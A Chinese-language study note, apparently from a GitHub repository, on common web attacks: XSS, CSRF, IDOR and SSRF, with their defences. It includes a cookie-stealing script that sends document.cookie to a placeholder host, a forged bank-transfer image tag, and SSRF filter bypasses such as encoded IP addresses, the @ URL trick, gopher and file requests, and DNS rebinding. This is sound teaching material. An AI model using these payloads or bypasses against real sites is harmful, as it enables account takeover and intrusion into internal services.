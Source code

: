 [TOC]

## 常见攻击方式

### XSS

跨站脚本攻击，可以将代码注入到用户浏览的网页上，这种代码包括`HTML`和`JavaScript`

+ 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容

```html
<script>localtion.href="//domain.com/?c="+document.cookie</script>
```

之后该内容可能会被渲染如下

```html
<p><script>location.href="//domain.com/?c="+document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到domain.com并携带了当前作用域的Cookie。如果这个论坛网站通过了Cookie管理用户登陆状态，那么攻击者就可以通过这个Cookie登陆被攻击者的账号了。

+ 防范手段
    + 设置Cookie为HttpOnly
    > 设置了HttpOnly的Cookie可以防止JavaScript脚本调用，就无法通过document.cookie获取用户Cookie信息
                                 
    + 过滤特殊字符
    > 将前端提交的内容进行转义过滤。富文本编辑器允许用户输入HTML代码，就不能简单的进行转义过滤了，通常采用XSS filter来防范XSS攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的HTML代码的输入

### CSRF

跨站请求伪造，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作(如发邮件，发消息，甚至财产操作如转账和购买商品)。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行

> XSS利用的是用户对网络的信任，CSRF利用的是网络对用户浏览器的信任

+ 攻击原理

假如一家银行用以执行转账操作的URL的地址如下
```html
http://www.examplebank.com/withdraw?account=AccountName&amount=10000&for=PayeeName
```
那么一个恶意攻击者可以在另一个网站上放置如下代码
```html
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman"/>
```

+ 防范手段
    + 检查`Referer`首部字段
        > 检查这个首部字段并要求请求来源的地址在同一域名下，可以极大的防止CSRF攻击
    + 添加校验Token
        > + 访问敏感数据请求时，要求用户浏览器提供不保存在Cookie中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。
        > + 切记不要让客户端使用随意的值就通过验证，否则前端完全可以自己生成UUID值进行攻击。                
    + 输入验证码
        > 因为CSRF攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作
                
                

### IDOR

IDOR找到突破口的方式，当API端口无法突破IDOR脆弱性测试，可以通过HTML或者JavaScript文件寻找其他用户的HASH唯一身份值

> 很多企业应用的变量如 **id**、**pid**、**uid**等，虽然平常情况下只当作HTTP参数，但通过更改该值，可以达到访问、编辑或删除任何其他用户对象。

### SSRF

> Server Side Request Forgery (服务端请求伪造)。形成的原因主要是服务器端所提供的接口中包含了所要请求的内容的URL参数，并且未对客户端所传输过来的URL参数进行过滤。

这个漏洞造成的危害如下：

+ 对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息
+ 攻击运行在内网或本地的应用程序(比如溢出)
+ 对内网Web应用进行指纹识别，通过访问默认文件实现
+ 攻击内外网的Web应用，主要是使用GET请求参数就可以实现的攻击(比如Struts2漏洞利用，SQL注入等等)
+ 利用File协议读取本地文件

**绕过SSRF过滤的方法**
+ 更改IP地址写法
    > **考虑到企业应用可能通过过滤掉内网IP的方式。这里可以使用各种进制替代原有IP写法，如以下192.168.0.1的各种进制**
    > + 8进制。 0300.0250.0.1
    > + 16进制。0xC0.0xA8.0.1
    > + 10进制。3232235521
    > + 16进制。0xC0A80001

+ 利用解析URL所出现的问题
    > **企业程序可能会对将要访问的URL进行解析，对解析出来的host地址进行过滤，这时候可能出现对URL参数解析不当，导致可以绕过过滤**
    > 当解析出待访问URL是 **http://www.baidu.com@192.168.0.1/** 时，企业程序如果使用不正确的正则表达式(如截取http之后到com为止的内容)，导致该URL通过审核而进行访问，实际上该URL最终将访问 **http://192.168.0.1**

+ 利用DNS解析
+ 通过各种非HTTP协议
    > + **GOPHER协议**。在URL参数中构造GET或POST请求，以达到攻击内网应用的目的，如对内网Redis服务进行攻击。
    > + **File协议**。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。如通过**file:///d:/1.txt**来访问

+ DNS Rebinding
    > 对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就PASS掉。但是在整个过程中，第一次去请求DNS服务器进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

